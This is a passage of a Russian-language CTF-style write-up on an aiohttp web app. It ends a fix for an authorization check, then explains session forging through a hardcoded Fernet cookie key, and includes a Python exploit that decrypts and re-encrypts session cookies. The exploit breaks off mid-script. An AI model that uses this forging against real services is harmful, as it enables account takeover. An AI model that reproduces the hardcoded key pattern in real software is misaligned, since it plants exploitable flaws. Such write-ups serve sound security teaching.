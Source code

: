 ### Защита:
1. Добавить проверку соответствия полей requests.user_id и users.id перед выполнением UPDATE запроса.

## Уязвимость 3: Session forging.
Если взглянуть на файл main.py, можно заметить то, как инициализируется middleware отвечающий за работу с сессиями пользователей:  
```python
CIPHER_KEY = b'\xbe\x08\xc1B\xbe\xbb\x19\xe1\xa02\xe2A\xcb\x8a\xce\x95\x87\xd5\x80g\xe3\xd4U5P\x07\x86D\x9d\xa0\xde\xb1'
app = web.Application(middlewares=[session_middleware(EncryptedCookieStorage(CIPHER_KEY))])
```
*EncryptedCookieStorage хранит данные сеанса в cookies, как это делает SimpleCookieStorage, но кодирует данные с помощью криптографического шифра Fernet.*
Захардкоженный ключ **(CIPHER_KEY)** используется для шифрования json с теми данными, которые наше приложение передаст пользователю. В нашем случе туда клался только email пользователя.    

Например:  
plaintext: `{"created": 1713180237, "session": {"user": "already_existing_email@mail.com"}}`  
  
encoded: `gAAAAABmHQ5NCO1DVyx_PVgSp7ocZTi7htBN8uPMSulWE0MUCbRQNxGYjsXRormpVEIqrvSVwVwJWPQ4tburbiraEDyZSGGrxFbSJEUywAINW8f2wxoobwIkltCJ3bMp8LZpv6YE7WOUWIsdXO626gnOpK67aix8DQuylD2PzaGaSEfXJlr3JdY=`

### Эксплуатация:
```python
from cryptography.fernet import Fernet
import base64

# The key used for encryption and decryption
CIPHER_KEY = b'\xbe\x08\xc1B\xbe\xbb\x19\xe1\xa02\xe2A\xcb\x8a\xce\x95\x87\xd5\x80g\xe3\xd4U5P\x07\x86D\x9d\xa0\xde\xb1' 
CIPHER_KEY = base64.b64encode(CIPHER_KEY)

# Create a Fernet cipher
cipher = Fernet(CIPHER_KEY)

# The encrypted cookie AIOHTTP_SESSION
def decrypt(AIOHTTP_SESSION):
    # Decrypt the cookie
    decrypted_cookie = cipher.decrypt(AIOHTTP_SESSION.encode())

    # Print the decrypted cookie
    return decrypted_cookie.decode()

def encrypt(cookie_to_encrypt):
    # The input string needs to be converted to bytes
    input_bytes = cookie_to_encrypt.encode()

    # Encrypt the input bytes
    encrypted_bytes = cipher.encrypt(input_bytes)

    # Convert the encrypted bytes back to a string
    encrypted_string = encrypted_bytes.decode()

    return encrypted_string

AIOHTTP_SESSION = "gAAAAABmHQ5NCO1DVyx_PVgSp7ocZTi7htBN8uPMSulWE0MUCbRQNxGYjsXRormpVEIqrvSVwVwJWPQ4tburbiraEDyZSGGrxFbSJEUywAINW8f2wxoobwIkltCJ3bMp8LZpv6YE7WOUWIsdXO626gnOpK67aix8DQuylD2PzaGaSEfXJlr3JdY="
print("cookie decrypted:")
print(decrypt(AIOHTTP_SESSION))
print()
print("new cookie encrypted:")
```